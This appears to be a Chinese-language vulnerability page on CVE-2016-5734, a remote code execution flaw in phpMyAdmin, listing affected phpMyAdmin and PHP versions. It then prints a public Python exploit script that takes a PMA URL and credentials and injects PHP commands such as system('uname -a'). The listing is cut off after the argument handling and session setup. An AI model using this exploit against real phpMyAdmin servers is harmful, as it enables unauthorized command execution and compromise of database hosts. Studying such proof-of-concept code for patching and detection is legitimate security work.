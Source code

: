 影响范围：

```markdown
phpMyAdmin version
	4.0.10.16 之前的4.0.x版本
	4.4.15.7 之前的 4.4.x版本
	4.6.3之前的 4.6.x版本

PHP version
	4.3.0~5.4.6
Php 5.0 版本以上的将 preg_replace 的 /e修饰符给废弃掉了
```

POC如下：

```python
#!/usr/bin/env python

"""cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
CVE: CVE-2016-5734
Author: https://twitter.com/iamsecurity
run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
"""

import requests
import argparse
import sys

__author__ = "@iamsecurity"

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument("url", type=str, help="URL with path to PMA")
    parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
    parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
    parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
    parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
```